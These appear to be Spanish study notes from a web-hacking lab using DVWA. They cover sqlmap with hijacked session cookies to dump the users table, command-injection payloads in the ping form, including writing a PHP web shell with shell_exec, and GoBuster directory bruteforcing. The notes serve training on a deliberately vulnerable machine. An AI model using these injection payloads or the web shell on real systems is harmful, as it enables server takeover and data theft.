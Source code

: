 La herramienta sqlmap nos permite automatizar este proceso y hacerlo de manera más silenciosa. 
- Formas de uso:
    - URL como parámetro
        - Vemos que en la MV en la que estamos haciendo las pruebas, las consultas se pasan por parámetros a través del método GET (podemos verlo en la URL). Para usar la URL como parámetro basta con realizar una consulta básica y copiar la URL.
        - Pero si recordamos para acceder a esta MV necesitamos logearnos como admin. Por tanto para que el sqlmap funcione vamos a necesitar copiarnos las cookies de la sesión de alguna forma. Para ello, abrimos las herramientas de desarrollador del navegador, en la pestaña de Network cogemos la petición y en la sección headers copiamos la cabecera "Cookie". Esto también se puede realizar a través de un proxy inverso. 
        - Con todo esto ejecutaríamos el siguiente comando en una terminal: `sqlmap -u "<URL>" --headers "<Cookie>"` y nos devolvería un listado de vulnerabilidades. Si le añadimos la opción `--dbs` nos muestra las bases de datos que contiene, si ponemos `-D dvwa --tables` nos dirá las tablas de la BD "dvwa", si ponemos `-D dvwa -T users --dump` nos extrae la tabla usuarios de la BD dvwa.
    - Fichero con la petición
        - Lo anterior se puede simplificar si mediante un proxy inverso capturamos la consulta, nos copiamos la petición y sus cabeceras a un archivo "peticion.txt" y ejecutamos `sqlmap -r peticion.txt` 

### RCE : Remote Command Execution

Esta vulnerabilidad permite ejecutar comandos del sistema en la máquina que aloja la web. 

¿Qué puede suponer esta vulnerabilidad?
- Control del servidor
- Obtención y modificación del código fuente
- Pivotaje a red interna
- Etc...

Ejemplo (en la plataforma DVWA > Command Execution): nos permite insertar una ip a la que se le hará ping pero si en lugar de pasarle una IP le pasamos los siguientes comandos:
- `;ls` - vemos los archivos
- `; cat source/low.php` - vemos el código fuente
- `; ip addr` - vemos su tarjeta de red 
- `; echo '<?php echo shell_exec($_GET["cmd"]); ?>' > shell1.php` - con esto creamos un archivo php que ejecutará el comando que le pasemos (cmd) por parámetro. Si lo insertamos en la web vemos que no se produce ningún cambio, pero si cambiamos la URL a "IP/dvwa/vulnerabilities/exec/shell1.php" vemos que el archivo existe (porque no nos da error). Si a esta URL le pasamos como parámetro el cmd así "../shell1.php?cmd=ls" nos lo ejecutará. 

### URL Bruteforcing: GoBuster y DirBuster

El objetivo de este ataque es el de descubrir y acceder a archivos que no se quieran enseñar. El ejemplo más sencillo es con el archivo "robots.txt" donde le indicamos qué archivos no queremos indexar. Para ello disponemos de 2 herramientas: OWASP DirBuster y GoBuster (consola). 

Con DirBuster basta con pasarle una URL y darle a ejecutar en la interfaz gráfica para que nos empiece a enseñar archivos del servidor web. Con GoBuster ejecutaríamos `gobuster dir -u <URL> -w /usr/share/wordlists/dirb/common.txt"` para que nos ataque a esta web con el diccionario que le pasamos. 